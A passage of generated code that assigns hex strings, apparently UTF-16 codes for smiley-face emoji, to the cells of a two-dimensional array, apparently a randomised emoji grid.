array[5][24] = "d83dde02"
array[5][25] = "d83dde08"
array[5][26] = "d83dde14"
array[5][27] = "d83dde14"
array[5][28] = "d83dde06"
array[5][29] = "d83dde23"
array[5][30] = "d83dde22"
array[5][31] = "d83dde0a"
array[5][32] = "d83dde02"
array[5][33] = "d83dde04"
array[5][34] = "d83dde0b"
array[5][35] = "d83dde10"
array[5][36] = "d83dde20"
array[5][37] = "d83dde07"
array[5][38] = "d83dde14"
array[5][39] = "d83dde0f"
array[5][40] = "d83dde17"
array[5][41] = "d83dde1c"
array[5][42] = "d83dde2e"
array[5][43] = "d83dde07"
array[5][44] = "d83dde19"
array[5][45] = "d83dde2f"
array[5][46] = "d83dde2c"
array[5][47] = "d83dde28"
array[6][0] = "d83dde27"
array[6][1] = "d83dde03"
array[6][2] = "d83dde29"
array[6][3] = "d83dde2f"
array[6][4] = "d83dde2f"
array[6][5] = "d83dde04"
array[6][6] = "d83dde08"
array[6][7] = "d83dde15"
array[6][8] = "d83dde02"
array[6][9] = "d83dde21"
array[6][10] = "d83dde26"
array[6][11] = "d83dde2d"
array[6][12] = "d83dde21"
array[6][13] = "d83dde0a"
array[6][14] = "d83dde0c"
array[6][15] = "d83dde12"
array[6][16] = "d83dde06"
array[6][17] = "d83dde0a"
array[6][18] = "d83dde15"
array[6][19] = "d83dde28"
array[6][20] = "d83dde28"
array[6][21] = "d83dde0a"
array[6][22] = "d83dde0c"
array[6][23] = "d83dde2a"
array[6][24] = "d83dde0d"
array[6][25] = "d83dde22"
array[6][26] = "d83dde26"
array[6][27] = "d83dde18"
array[6][28] = "d83dde0d"
array[6][29] = "d83dde2a"
array[6][30] = "d83dde27"
array[6][31] = "d83dde17"
array[6][32] = "d83dde07"
array[6][33] = "d83dde05"
array[6][34] = "d83dde07"
array[6][35] = "d83dde2d"
array[6][36] = "d83dde1e"
array[6][37] = "d83dde16"
array[6][38] = "d83dde22"
array[6][39] = "d83dde18"
array[6][40] = "d83dde1d"
array[6][41] = "d83dde26"
array[6][42] = "d83dde25"
array[6][43] = "d83dde2e"
array[6][44] = "d83dde12"
array[6][45] = "d83dde26"
array[6][46] = "d83dde21"
array[6][47] = "d83dde2b"
array[7][0] = "d83dde2a"
array[7][1] = "d83dde2b"
array[7][2] = "d83dde2b"
array[7][3] = "d83dde09"
array[7][4] = "d83dde16"
array[7][5] = "d83dde06"
array[7][6] = "d83dde02"
array[7][7] = "d83dde25"
array[7][8] = "d83dde0f"
array[7][9] = "d83dde0a"
array[7][10] = "d83dde01"
array[7][11] = "d83dde02"
array[7][12] = "d83dde29"
array[7][13] = "d83dde09"
array[7][14] = "d83dde01"
array[7][15] = "d83dde00"
array[7][16] = "d83dde2c"
array[7][17] = "d83dde1a"
array[7][18] = "d83dde13"
array[7][19] = "d83dde08"
array[7][20] = "d83dde04"
array[7][21] = "d83dde24"
array[7][22] = "d83dde15"
array[7][23] = "d83dde19"
array[7][24] = "d83dde0b"
array[7][25] = "d83dde1a"
array[7][26] = "d83dde1f"
array[7][27] = "d83dde06"
array[7][28] = "d83dde2b"
array[7][29] = "d83dde0a"
array[7][30] = "d83dde1b"
array[7][31] = "d83dde2a"
array[7][32] = "d83dde0b"
array[7][33] = "d83dde16"
array[7][34] = "d83dde22"
array[7][35] = "d83dde0d"
array[7][36] = "d83dde19"
array[7][37] = "d83dde03"
array[7][38] = "d83dde14"
array[7][39] = "d83dde1e"
array[7][40] = "d83dde19"
array[7][41] = "d83dde20"
array[7][42] = "d83dde10"
array[7][43] = "d83dde17"
array[7][44] = "d83dde06"
array[7][45] = "d83dde0c"
array[7][46] = "d83dde22"
array[7][47] = "d83dde10"
array[8][0] = "d83dde1e"
array[8][1] = "d83dde1f"
array[8][2] = "d83dde10"
array[8][3] = "d83dde1a"
array[8][4] = "d83dde07"
array[8][5] = "d83dde22"
array[8][6] = "d83dde0b"
array[8][7] = "d83dde2d"
array[8][8] = "d83dde24"
array[8][9] = "d83dde09"
array[8][10] = "d83dde1a"
array[8][11] = "d83dde09"
array[8][12] = "d83dde12"
array[8][13] = "d83dde25"
array[8][14] = "d83dde2e"
array[8][15] = "d83dde15"
array[8][16] = "d83dde04"
array[8][17] = "d83dde16"
array[8][18] = "d83dde0d"
array[8][19] = "d83dde1e"
array[8][20] = "d83dde10"
array[8][21] = "d83dde08"
array[8][22] = "d83dde03"
array[8][23] = "d83dde18"
array[8][24] = "d83dde0d"
array[8][25] = "d83dde25"
array[8][26] = "d83dde23"
array[8][27] = "d83dde27"
array[8][28] = "d83dde12"
array[8][29] = "d83dde2e"
array[8][30] = "d83dde27"
array[8][31] = "d83dde11"
array[8][32] = "d83dde2c"
array[8][33] = "d83dde21"
array[8][34] = "d83dde20"
array[8][35] = "d83dde05"
array[8][36] = "d83dde01"
array[8][37] = "d83dde18"
array[8][38] = "d83dde1e"
array[8][39] = "d83dde01"
array[8][40] = "d83dde0e"
array[8][41] = "d83dde11"
array[8][42] = "d83dde0e"
array[8][43] = "d83dde13"
array[8][44] = "d83dde28"
array[8][45] = "d83dde2f"
array[8][46] = "d83dde09"
array[8][47] = "d83dde2d"
array[9][0] = "d83dde09"
array[9][1] = "d83dde26"
array[9][2] = "d83dde29"
array[9][3] = "d83dde27"
array[9][4] = "d83dde0e"
array[9][5] = "d83dde0b"
array[9][6] = "d83dde06"
array[9][7] = "d83dde06"
array[9][8] = "d83dde0f"
array[9][9] = "d83dde1a"
array[9][10] = "d83dde09"
array[9][11] = "d83dde12"
array[9][12] = "d83dde0f"
array[9][13] = "d83dde14"
array[9][14] = "d83dde1e"
array[9][15] = "d83dde2c"
array[9][16] = "d83dde02"
array[9][17] = "d83dde28"
array[9][18] = "d83dde05"
array[9][19] = "d83dde28"
array[9][20] = "d83dde00"
array[9][21] = "d83dde18"
array[9][22] = "d83dde21"
array[9][23] = "d83dde23"
array[9][24] = "d83dde07"
array[9][25] = "d83dde20"
array[9][26] = "d83dde02"
array[9][27] = "d83dde23"
array[9][28] = "d83dde18"
array[9][29] = "d83dde1e"
array[9][30] = "d83dde29"
array[9][31] = "d83dde2b"
array[9][32] = "d83dde28"
array[9][33] = "d83dde12"
array[9][34] = "d83dde0e"
array[9][35] = "d83dde1d"
array[9][36] = "d83dde23"
array[9][37] = "d83dde00"
array[9][38] = "d83dde09"
array[9][39] = "d83dde1d"
array[9][40] = "d83dde1a"
array[9][41] = "d83dde2f"
array[9][42] = "d83dde1f"
array[9][43] = "d83dde25"
array[9][44] = "d83dde0a"
array[9][45] = "d83dde20"
array[9][46] = "d83dde0a"
array[9][47] = "d83dde2e"
array[10][0] = "d83dde06"
array[10][1] = "d83dde12"
array[10][2] = "d83dde28"
array[10][3] = "d83dde01"
array[10][4] = "d83dde1b"
array[10][5] = "d83dde24"
array[10][6] = "d83dde0e"
array[10][7] = "d83dde22"
array[10][8] = "d83dde09"
array[10][9] = "d83dde00"
array[10][10] = "d83dde0c"
array[10][11] = "d83dde1e"
array[10][12] = "d83dde28"
array[10][13] = "d83dde29"
array[10][14] = "d83dde1b"
array[10][15] = "d83dde29"
array[10][16] = "d83dde1a"
array[10][17] = "d83dde1e"
array[10][18] = "d83dde2b"
array[10][19] = "d83dde23"
array[10][20] = "d83dde1e"
array[10][21] = "d83dde2a"
array[10][22] = "d83dde03"
array[10][23] = "d83dde01"
array[10][24] = "d83dde16"
array[10][25] = "d83dde10"
array[10][26] = "d83dde1d"
array[10][27] = "d83dde06"
array[10][28] = "d83dde29"
array[10][29] = "d83dde26"
array[10][30] = "d83dde2e"
array[10][31] = "d83dde0a"
array[10][32] = "d83dde25"
array[10][33] = "d83dde0c"
array[10][34] = "d83dde0a"
array[10][35] = "d83dde12"
array[10][36] = "d83dde10"
array[10][37] = "d83dde1b"
array[10][38] = "d83dde08"
array[10][39] = "d83dde2e"
array[10][40] = "d83dde02"
array[10][41] = "d83dde19"
array[10][42] = "d83dde20"
array[10][43] = "d83dde23"
array[10][44] = "d83dde14"
array[10][45] = "d83dde02"
array[10][46] = "d83dde0f"
array[10][47] = "d83dde1a"
array[11][0] = "d83dde00"
array[11][1] = "d83dde28"
array[11][2] = "d83dde19"
array[11][3] = "d83dde2c"
array[11][4] = "d83dde0a"
array[11][5] = "d83dde14"
array[11][6] = "d83dde18"
array[11][7] = "d83dde19"
array[11][8] = "d83dde16"
array[11][9] = "d83dde21"
array[11][10] = "d83dde09"
array[11][11] = "d83dde08"
array[11][12] = "d83dde20"
array[11][13] = "d83dde03"
array[11][14] = "d83dde2f"
array[11][15] = "d83dde00"
array[11][16] = "d83dde03"
array[11][17] = "d83dde19"
array[11][18] = "d83dde28"
array[11][19] = "d83dde12"
array[11][20] = "d83dde15"
array[11][21] = "d83dde00"
array[11][22] = "d83dde0c"
array[11][23] = "d83dde21"
array[11][24] = "d83dde11"
array[11][25] = "d83dde07"
array[11][26] = "d83dde23"
array[11][27] = "d83dde22"
array[11][28] = "d83dde07"
array[11][29] = "d83dde0b"
array[11][30] = "d83dde2e"
array[11][31] = "d83dde15"
array[11][32] = "d83dde21"
array[11][33] = "d83dde2d"
array[11][34] = "d83dde21"
array[11][35] = "d83dde1e"
array[11][36] = "d83dde20"
array[11][37] = "d83dde1f"
array[11][38] = "d83dde2c"
array[11][39] = "d83dde0b"
array[11][40] = "d83dde04"
array[11][41] = "d83dde00"
array[11][42] = "d83dde0b"
array[11][43] = "d83dde0b"
array[11][44] = "d83dde1c"
array[11][45] = "d83dde00"
array[11][46] = "d83dde00"
array[11][47] = "d83dde1e"
array[12][0] = "d83dde23"
array[12][1] = "d83dde15"
array[12][2] = "d83dde15"
array[12][3] = "d83dde06"
array[12][4] = "d83dde1b"
array[12][5] = "d83dde05"
array[12][6] = "d83dde06"
array[12][7] = "d83dde06"
array[12][8] = "d83dde18"
array[12][9] = "d83dde08"
array[12][10] = "d83dde1d"
array[12][11] = "d83dde19"
array[12][12] = "d83dde2f"
array[12][13] = "d83dde06"
array[12][14] = "d83dde26"
array[12][15] = "d83dde1c"
array[12][16] = "d83dde12"
array[12][17] = "d83dde14"
array[12][18] = "d83dde10"
array[12][19] = "d83dde2d"
array[12][20] = "d83dde1a"
array[12][21] = "d83dde1f"
array[12][22] = "d83dde1f"
array[12][23] = "d83dde21"
array[12][24] = "d83dde07"
array[12][25] = "d83dde28"
array[12][26] = "d83dde0c"
array[12][27] = "d83dde1f"
array[12][28] = "d83dde23"
array[12][29] = "d83dde00"
array[12][30] = "d83dde10"
array[12][31] = "d83dde20"
array[12][32] = "d83dde1c"
array[12][33] = "d83dde17"
array[12][34] = "d83dde10"
array[12][35] = "d83dde2f"
array[12][36] = "d83dde29"
array[12][37] = "d83dde25"
array[12][38] = "d83dde24"
array[12][39] = "d83dde2b"
array[12][40] = "d83dde26"
array[12][41] = "d83dde1f"
array[12][42] = "d83dde24"
array[12][43] = "d83dde00"
array[12][44] = "d83dde0d"
array[12][45] = "d83dde2a"
array[12][46] = "d83dde2a"
array[12][47] = "d83dde25"
array[13][0] = "d83dde14"
array[13][1] = "d83dde1c"
array[13][2] = "d83dde28"
array[13][3] = "d83dde15"
array[13][4] = "d83dde08"
array[13][5] = "d83dde09"
array[13][6] = "d83dde16"
array[13][7] = "d83dde28"
array[13][8] = "d83dde0b"
array[13][9] = "d83dde12"
array[13][10] = "d83dde16"
array[13][11] = "d83dde2b"
array[13][12] = "d83dde23"
array[13][13] = "d83dde01"
array[13][14] = "d83dde28"
array[13][15] = "d83dde24"
array[13][16] = "d83dde2b"
array[13][17] = "d83dde01"
array[13][18] = "d83dde22"
array[13][19] = "d83dde21"
array[13][20] = "d83dde18"
array[13][21] = "d83dde0e"
array[13][22] = "d83dde0c"
array[13][23] = "d83dde19"
array[13][24] = "d83dde05"
array[13][25] = "d83dde29"
array[13][26] = "d83dde2a"
array[13][27] = "d83dde07"
array[13][28] = "d83dde0d"
array[13][29] = "d83dde19"
array[13][30] = "d83dde2a"
array[13][31] = "d83dde18"
array[13][32] = "d83dde2f"
array[13][33] = "d83dde07"
array[13][34] = "d83dde13"
array[13][35] = "d83dde10"
array[13][36] = "d83dde02"
array[13][37] = "d83dde01"
array[13][38] = "d83dde01"
array[13][39] = "d83dde22"
array[13][40] = "d83dde2b"
array[13][41] = "d83dde24"
array[13][42] = "d83dde04"
array[13][43] = "d83dde0a"
array[13][44] = "d83dde0c"
array[13][45] = "d83dde29"
array[13][46] = "d83dde1e"
array[13][47] = "d83dde14"
array[14][0] = "d83dde28"
array[14][1] = "d83dde08"
array[14][2] = "d83dde22"
array[14][3] = "d83dde06"
array[14][4] = "d83dde04"
array[14][5] = "d83dde0a"
array[14][6] = "d83dde10"
array[14][7] = "d83dde1d"
array[14][8] = "d83dde2e"
array[14][9] = "d83dde03"
array[14][10] = "d83dde1a"
array[14][11] = "d83dde04"
array[14][12] = "d83dde02"
array[14][13] = "d83dde11"
array[14][14] = "d83dde06"
array[14][15] = "d83dde19"
array[14][16] = "d83dde14"
array[14][17] = "d83dde19"
array[14][18] = "d83dde00"
array[14][19] = "d83dde1a"
array[14][20] = "d83dde20"
array[14][21] = "d83dde1a"
array[14][22] = "d83dde0d"
array[14][23] = "d83dde2f"
array[14][24] = "d83dde0a"
array[14][25] = "d83dde2a"
array[14][26] = "d83dde1b"
array[14][27] = "d83dde04"
array[14][28] = "d83dde0b"
array[14][29] = "d83dde28"
array[14][30] = "d83dde2b"
array[14][31] = "d83dde23"
array[14][32] = "d83dde04"
array[14][33] = "d83dde0e"
array[14][34] = "d83dde05"
array[14][35] = "d83dde04"
array[14][36] = "d83dde0f"
array[14][37] = "d83dde00"
array[14][38] = "d83dde0f"
array[14][39] = "d83dde22"
array[14][40] = "d83dde0c"
array[14][41] = "d83dde07"
array[14][42] = "d83dde0d"
array[14][43] = "d83dde2c"
array[14][44] = "d83dde29"
array[14][45] = "d83dde29"
array[14][46] = "d83dde1f"
array[14][47] = "d83dde08"
array[15][0] = "d83dde29"
array[15][1] = "d83dde08"
array[15][2] = "d83dde1b"
array[15][3] = "d83dde1f"
array[15][4] = "d83dde29"
array[15][5] = "d83dde22"
array[15][6] = "d83dde18"
array[15][7] = "d83dde26"
array[15][8] = "d83dde29"
array[15][9] = "d83dde05"
array[15][10] = "d83dde1f"
array[15][11] = "d83dde03"
array[15][12] = "d83dde1a"
array[15][13] = "d83dde1f"
array[15][14] = "d83dde2d"
array[15][15] = "d83dde1c"
array[15][16] = "d83dde0a"
array[15][17] = "d83dde26"
array[15][18] = "d83dde1f"
array[15][19] = "d83dde1f"
array[15][20] = "d83dde06"
array[15][21] = "d83dde02"
array[15][22] = "d83dde20"
array[15][23] = "d83dde0a"
array[15][24] = "d83dde00"
array[15][25] = "d83dde2c"
array[15][26] = "d83dde1d"
array[15][27] = "d83dde27"
array[15][28] = "d83dde1a"
array[15][29] = "d83dde07"
array[15][30] = "d83dde11"
array[15][31] = "d83dde1f"
array[15][32] = "d83dde21"
array[15][33] = "d83dde29"
array[15][34] = "d83dde26"
array[15][35] = "d83dde05"
array[15][36] = "d83dde12"
array[15][37] = "d83dde16"
array[15][38] = "d83dde0c"
array[15][39] = "d83dde00"
array[15][40] = "d83dde01"
array[15][41] = "d83dde2e"
array[15][42] = "d83dde2c"
array[15][43] = "d83dde01"
array[15][44] = "d83dde1b"
array[15][45] = "d83dde1c"
array[15][46] = "d83dde27"
array[15][47] = "d83dde0f"
array[16][0] = "d83dde03"
array[16][1] = "d83dde1b"
array[16][2] = "d83dde1c"
array[16][3] = "d83dde13"
array[16][4] = "d83dde02"
array[16][5] = "d83dde2e"
array[16][6] = "d83dde16"
array[16][7] = "d83dde2d"
array[16][8] = "d83dde01"
array[16][9] = "d83dde1d"
array[16][10] = "d83dde29"
array[16][11] = "d83dde27"
array[16][12] = "d83dde1c"
array[16][13] = "d83dde12"
array[16][14] = "d83dde1d"
array[16][15] = "d83dde0e"
array[16][16] = "d83dde27"
array[16][17] = "d83dde0f"
array[16][18] = "d83dde2d"
array[16][19] = "d83dde0a"
array[16][20] = "d83dde14"
array[16][21] = "d83dde11"
array[16][22] = "d83dde10"
array[16][23] = "d83dde15"
array[16][24] = "d83dde03"
array[16][25] = "d83dde1d"
array[16][26] = "d83dde2e"
array[16][27] = "d83dde2e"
array[16][28] = "d83dde18"
array[16][29] = "d83dde28"
array[16][30] = "d83dde15"
array[16][31] = "d83dde17"
array[16][32] = "d83dde07"
array[16][33] = "d83dde21"
array[16][34] = "d83dde05"
array[16][35] = "d83dde16"
array[16][36] = "d83dde03"
array[16][37] = "d83dde26"
array[16][38] = "d83dde0a"
array[16][39] = "d83dde03"
array[16][40] = "d83dde2e"
array[16][41] = "d83dde19"
array[16][42] = "d83dde01"
array[16][43] = "d83dde09"
array[16][44] = "d83dde02"
array[16][45] = "d83dde14"
array[16][46] = "d83dde13"
array[16][47] = "d83dde29"
array[17][0] = "d83dde1c"
array[17][1] = "d83dde12"
array[17][2] = "d83dde0a"
array[17][3] = "d83dde10"
array[17][4] = "d83dde1d"
array[17][5] = "d83dde1f"
array[17][6] = "d83dde1c"
array[17][7] = "d83dde2f"
array[17][8] = "d83dde09"
array[17][9] = "d83dde18"
array[17][10] = "d83dde00"
array[17][11] = "d83dde1f"
array[17][12] = "d83dde17"
array[17][13] = "d83dde0a"
array[17][14] = "d83dde22"
array[17][15] = "d83dde1b"
array[17][16] = "d83dde0e"
array[17][17] = "d83dde09"
array[17][18] = "d83dde16"
array[17][19] = "d83dde07"
array[17][20] = "d83dde20"
array[17][21] = "d83dde16"
array[17][22] = "d83dde0c"
array[17][23] = "d83dde0e"
array[17][24] = "d83dde29"
array[17][25] = "d83dde28"
array[17][26] = "d83dde10"
array[17][27] = "d83dde17"
array[17][28] = "d83dde2d"
array[17][29] = "d83dde0f"
array[17][30] = "d83dde2b"
array[17][31] = "d83dde2e"
array[17][32] = "d83dde18"
array[17][33] = "d83dde26"
array[17][34] = "d83dde12"
array[17][35] = "d83dde08"
array[17][36] = "d83dde01"
array[17][37] = "d83dde2c"
array[17][38] = "d83dde2f"
array[17][39] = "d83dde1d"
array[17][40] = "d83dde00"
array[17][41] = "d83dde17"
array[17][42] = "d83dde05"
array[17][43] = "d83dde2d"
array[17][44] = "d83dde27"
array[17][45] = "d83dde25"
array[17][46] = "d83dde24"
array[17][47] = "d83dde28"
array[18][0] = "d83dde08"
array[18][1] = "d83dde0e"
array[18][2] = "d83dde28"
array[18][3] = "d83dde13"
array[18][4] = "d83dde1d"
array[18][5] = "d83dde0b"
array[18][6] = "d83dde07"
array[18][7] = "d83dde18"
array[18][8] = "d83dde2d"
array[18][9] = "d83dde2f"
array[18][10] = "d83dde19"
array[18][11] = "d83dde0d"
array[18][12] = "d83dde19"
array[18][13] = "d83dde0b"
array[18][14] = "d83dde25"
array[18][15] = "d83dde22"
array[18][16] = "d83dde2a"
array[18][17] = "d83dde14"
array[18][18] = "d83dde08"
array[18][19] = "d83dde2b"
array[18][20] = "d83dde2e"
array[18][21] = "d83dde00"
array[18][22] = "d83dde19"
array[18][23] = "d83dde10"
array[18][24] = "d83dde2c"
array[18][25] = "d83dde07"
array[18][26] = "d83dde01"
array[18][27] = "d83dde0b"
array[18][28] = "d83dde27"
array[18][29] = "d83dde1d"
array[18][30] = "d83dde2c"
array[18][31] = "d83dde13"
array[18][32] = "d83dde02"
array[18][33] = "d83dde25"
array[18][34] = "d83dde18"
array[18][35] = "d83dde1e"
array[18][36] = "d83dde02"
array[18][37] = "d83dde13"
array[18][38] = "d83dde1e"
array[18][39] = "d83dde1c"
array[18][40] = "d83dde1c"
array[18][41] = "d83dde10"
array[18][42] = "d83dde24"
array[18][43] = "d83dde27"
array[18][44] = "d83dde04"
array[18][45] = "d83dde04"
array[18][46] = "d83dde0d"
array[18][47] = "d83dde05"
array[19][0] = "d83dde0b"
array[19][1] = "d83dde0a"
array[19][2] = "d83dde1b"
array[19][3] = "d83dde0c"
array[19][4] = "d83dde25"
array[19][5] = "d83dde10"
array[19][6] = "d83dde29"
array[19][7] = "d83dde20"
array[19][8] = "d83dde2b"
array[19][9] = "d83dde06"
array[19][10] = "d83dde2c"
array[19][11] = "d83dde13"
array[19][12] = "d83dde05"
array[19][13] = "d83dde13"
array[19][14] = "d83dde23"
array[19][15] = "d83dde23"
array[19][16] = "d83dde18"
array[19][17] = "d83dde10"
array[19][18] = "d83dde23"
array[19][19] = "d83dde23"
array[19][20] = "d83dde06"
array[19][21] = "d83dde23"
array[19][22] = "d83dde19"
array[19][23] = "d83dde2d"
array[19][24] = "d83dde24"
array[19][25] = "d83dde06"
array[19][26] = "d83dde11"
array[19][27] = "d83dde01"
array[19][28] = "d83dde1f"
array[19][29] = "d83dde01"
array[19][30] = "d83dde0c"
array[19][31] = "d83dde17"
array[19][32] = "d83dde25"
array[19][33] = "d83dde24"
array[19][34] = "d83dde1b"
array[19][35] = "d83dde0a"
array[19][36] = "d83dde1d"
array[19][37] = "d83dde20"
array[19][38] = "d83dde0c"
array[19][39] = "d83dde12"
array[19][40] = "d83dde14"
array[19][41] = "d83dde09"
array[19][42] = "d83dde0d"
array[19][43] = "d83dde29"
array[19][44] = "d83dde0e"
array[19][45] = "d83dde16"
array[19][46] = "d83dde12"
array[19][47] = "d83dde26"
array[20][0] = "d83dde16"
array[20][1] = "d83dde0a"
array[20][2] = "d83dde29"
array[20][3] = "d83dde17"
array[20][4] = "d83dde20"
array[20][5] = "d83dde2b"
array[20][6] = "d83dde2b"
array[20][7] = "d83dde07"
array[20][8] = "d83dde04"
array[20][9] = "d83dde2a"
array[20][10] = "d83dde1f"
array[20][11] = "d83dde15"
array[20][12] = "d83dde02"
array[20][13] = "d83dde02"
array[20][14] = "d83dde29"
array[20][15] = "d83dde18"
array[20][16] = "d83dde0e"
array[20][17] = "d83dde11"
array[20][18] = "d83dde24"
array[20][19] = "d83dde18"
array[20][20] = "d83dde03"
array[20][21] = "d83dde07"
array[20][22] = "d83dde04"
array[20][23] = "d83dde0e"
array[20][24] = "d83dde19"
array[20][25] = "d83dde18"
array[20][26] = "d83dde13"
array[20][27] = "d83dde2d"
array[20][28] = "d83dde1f"
array[20][29] = "d83dde08"
array[20][30] = "d83dde2e"
array[20][31] = "d83dde2e"
array[20][32] = "d83dde0e"
array[20][33] = "d83dde24"
array[20][34] = "d83dde1b"
array[20][35] = "d83dde0d"
array[20][36] = "d83dde2e"
array[20][37] = "d83dde2d"
array[20][38] = "d83dde0e"
array[20][39] = "d83dde23"
array[20][40] = "d83dde21"
array[20][41] = "d83dde29"
array[20][42] = "d83dde21"
array[20][43] = "d83dde24"
array[20][44] = "d83dde1a"
array[20][45] = "d83dde1a"
array[20][46] = "d83dde2a"
array[20][47] = "d83dde21"
array[21][0] = "d83dde20"
array[21][1] = "d83dde0b"
array[21][2] = "d83dde0e"
array[21][3] = "d83dde1c"
array[21][4] = "d83dde08"
array[21][5] = "d83dde11"
array[21][6] = "d83dde1f"
array[21][7] = "d83dde2b"
array[21][8] = "d83dde23"
array[21][9] = "d83dde2b"
array[21][10] = "d83dde05"
array[21][11] = "d83dde2d"
array[21][12] = "d83dde13"
array[21][13] = "d83dde16"
array[21][14] = "d83dde1c"
array[21][15] = "d83dde11"
array[21][16] = "d83dde19"
array[21][17] = "d83dde29"
array[21][18] = "d83dde20"
array[21][19] = "d83dde1f"
array[21][20] = "d83dde1c"
array[21][21] = "d83dde05"
array[21][22] = "d83dde1c"
array[21][23] = "d83dde00"
array[21][24] = "d83dde05"
array[21][25] = "d83dde17"
array[21][26] = "d83dde13"
array[21][27] = "d83dde0b"
array[21][28] = "d83dde22"
array[21][29] = "d83dde16"
array[21][30] = "d83dde15"
array[21][31] = "d83dde06"
array[21][32] = "d83dde04"
array[21][33] = "d83dde0f"
array[21][34] = "d83dde21"
array[21][35] = "d83dde0b"
array[21][36] = "d83dde04"
array[21][37] = "d83dde1e"
array[21][38] = "d83dde23"
array[21][39] = "d83dde18"
array[21][40] = "d83dde19"
array[21][41] = "d83dde2c"
array[21][42] = "d83dde08"
array[21][43] = "d83dde16"
array[21][44] = "d83dde11"
array[21][45] = "d83dde20"
array[21][46] = "d83dde11"
array[21][47] = "d83dde1b"
array[22][0] = "d83dde24"
array[22][1] = "d83dde0d"
array[22][2] = "d83dde2e"
array[22][3] = "d83dde1d"
array[22][4] = "d83dde0f"
array[22][5] = "d83dde13"
array[22][6] = "d83dde23"
array[22][7] = "d83dde2e"
array[22][8] = "d83dde0c"
array[22][9] = "d83dde16"
array[22][10] = "d83dde0c"
array[22][11] = "d83dde14"
array[22][12] = "d83dde14"
array[22][13] = "d83dde1d"
array[22][14] = "d83dde19"
array[22][15] = "d83dde22"
array[22][16] = "d83dde2d"
array[22][17] = "d83dde03"
array[22][18] = "d83dde0a"
array[22][19] = "d83dde12"
array[22][20] = "d83dde23"
array[22][21] = "d83dde16"
array[22][22] = "d83dde10"
array[22][23] = "d83dde22"
array[22][24] = "d83dde2c"
array[22][25] = "d83dde25"
array[22][26] = "d83dde24"
array[22][27] = "d83dde1f"
array[22][28] = "d83dde0c"
array[22][29] = "d83dde28"
array[22][30] = "d83dde1b"
array[22][31] = "d83dde1a"
array[22][32] = "d83dde15"
array[22][33] = "d83dde2a"
array[22][34] = "d83dde02"
array[22][35] = "d83dde15"
array[22][36] = "d83dde0c"
array[22][37] = "d83dde02"
array[22][38] = "d83dde06"
array[22][39] = "d83dde22"
array[22][40] = "d83dde23"
array[22][41] = "d83dde02"
array[22][42] = "d83dde15"
array[22][43] = "d83dde21"
array[22][44] = "d83dde13"
array[22][45] = "d83dde26"
array[22][46] = "d83dde00"
array[22][47] = "d83dde2c"
array[23][0] = "d83dde27"
array[23][1] = "d83dde04"
array[23][2] = "d83dde13"
array[23][3] = "d83dde04"
array[23][4] = "d83dde1b"
array[23][5] = "d83dde09"
array[23][6] = "d83dde11"
array[23][7] = "d83dde22"
array[23][8] = "d83dde13"
array[23][9] = "d83dde11"
array[23][10] = "d83dde1b"
array[23][11] = "d83dde23"
array[23][12] = "d83dde19"
array[23][13] = "d83dde21"
array[23][14] = "d83dde27"
array[23][15] = "d83dde1e"
array[23][16] = "d83dde2e"
array[23][17] = "d83dde0e"
array[23][18] = "d83dde18"
array[23][19] = "d83dde25"
array[23][20] = "d83dde0a"
array[23][21] = "d83dde22"
array[23][22] = "d83dde1a"
array[23][23] = "d83dde1a"
array[23][24] = "d83dde1c"
array[23][25] = "d83dde0e"
array[23][26] = "d83dde15"
array[23][27] = "d83dde1f"
array[23][28] = "d83dde17"
array[23][29] = "d83dde16"
array[23][30] = "d83dde06"
array[23][31] = "d83dde00"
array[23][32] = "d83dde0f"
array[23][33] = "d83dde21"
array[23][34] = "d83dde10"
array[23][35] = "d83dde04"
array[23][36] = "d83dde0a"
array[23][37] = "d83dde25"
array[23][38] = "d83dde2a"
array[23][39] = "d83dde07"
array[23][40] = "d83dde18"
array[23][41] = "d83dde1a"
array[23][42] = "d83dde02"
array[23][43] = "d83dde12"
array[23][44] = "d83dde18"
array[23][45] = "d83dde2b"
array[23][46] = "d83dde2f"
array[23][47] = "d83dde21"
array[24][0] = "d83dde12"
array[24][1] = "d83dde0d"
array[24][2] = "d83dde0a"
array[24][3] = "d83dde0a"
array[24][4] = "d83dde2b"
array[24][5] = "d83dde08"
array[24][6] = "d83dde29"
array[24][7] = "d83dde1e"
array[24][8] = "d83dde00"
array[24][9] = "d83dde12"
array[24][10] = "d83dde27"
array[24][11] = "d83dde21"
array[24][12] = "d83dde11"
array[24][13] = "d83dde17"
array[24][14] = "d83dde20"
array[24][15] = "d83dde27"
array[24][16] = "d83dde0d"
array[24][17] = "d83dde2a"
array[24][18] = "d83dde01"
array[24][19] = "d83dde25"
array[24][20] = "d83dde1d"
array[24][21] = "d83dde02"
array[24][22] = "d83dde16"
array[24][23] = "d83dde1c"
array[24][24] = "d83dde24"
array[24][25] = "d83dde23"
array[24][26] = "d83dde13"
array[24][27] = "d83dde14"
array[24][28] = "d83dde27"
array[24][29] = "d83dde03"
array[24][30] = "d83dde2a"
array[24][31] = "d83dde27"
array[24][32] = "d83dde03"
array[24][33] = "d83dde22"
array[24][34] = "d83dde2d"
array[24][35] = "d83dde1e"
array[24][36] = "d83dde07"
array[24][37] = "d83dde09"
array[24][38] = "d83dde23"
array[24][39] = "d83dde01"
array[24][40] = "d83dde10"
array[24][41] = "d83dde2c"
array[24][42] = "d83dde19"
array[24][43] = "d83dde0a"
array[24][44] = "d83dde00"
array[24][45] = "d83dde0c"
array[24][46] = "d83dde10"
array[24][47] = "d83dde0d"
array[25][0] = "d83dde25"
array[25][1] = "d83dde15"
array[25][2] = "d83dde2d"
array[25][3] = "d83dde1b"
array[25][4] = "d83dde00"
array[25][5] = "d83dde21"
array[25][6] = "d83dde03"
array[25][7] = "d83dde1c"
array[25][8] = "d83dde1b"
array[25][9] = "d83dde26"
array[25][10] = "d83dde17"
array[25][11] = "d83dde14"
array[25][12] = "d83dde10"
array[25][13] = "d83dde2a"
array[25][14] = "d83dde29"
array[25][15] = "d83dde24"
array[25][16] = "d83dde2f"
array[25][17] = "d83dde1c"
array[25][18] = "d83dde12"
array[25][19] = "d83dde0f"
array[25][20] = "d83dde10"
array[25][21] = "d83dde09"
array[25][22] = "d83dde23"
array[25][23] = "d83dde26"
array[25][24] = "d83dde13"
array[25][25] = "d83dde13"
array[25][26] = "d83dde0a"
array[25][27] = "d83dde1b"
array[25][28] = "d83dde2b"
array[25][29] = "d83dde2a"
array[25][30] = "d83dde21"
array[25][31] = "d83dde25"
array[25][32] = "d83dde01"
array[25][33] = "d83dde24"
array[25][34] = "d83dde07"
array[25][35] = "d83dde27"
array[25][36] = "d83dde1d"
array[25][37] = "d83dde0d"
array[25][38] = "d83dde24"
array[25][39] = "d83dde0f"
